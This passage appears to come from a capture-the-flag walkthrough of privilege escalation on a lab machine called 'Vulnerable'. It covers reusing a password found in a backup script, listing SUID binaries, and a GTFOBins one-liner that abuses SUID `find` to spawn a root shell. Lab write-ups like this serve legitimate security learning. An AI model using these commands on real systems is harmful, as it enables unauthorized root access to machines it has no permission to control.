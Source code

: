 We can't run `sudo`. Looking at basterd's home directory, we have `backup.sh`.

```sh
basterd@Vulnerable:~$ ls -l
total 4
-rwxr-xr-x 1 stoner basterd 699 Aug 21  2019 backup.sh
```

Looking inside the file, we have stoner's password which we can, again, use to `su stoner`.

Checking our privileges ...

```sh
stoner@Vulnerable:/home/basterd$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
```

This time, we seem to have something we can run. However, the file doesn't exist and we can create `/NotThisTime` so it's just another rabbit hole. Looking for SUID files ...

```sh
stoner@Vulnerable:/home/basterd$ find / -perm -4000 2>/dev/null
/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping6
/bin/ping
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/apache2/suexec-custom
/usr/lib/apache2/suexec-pristine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgidmap
/usr/bin/find
/usr/bin/at
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newuidmap
```

We see that `find` has the SUID bit set. Following [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid), we can get a shell as root with it.

```sh
find . -exec /bin/sh -p \; -quit
```

With that, we should have  a root shell on the machine.
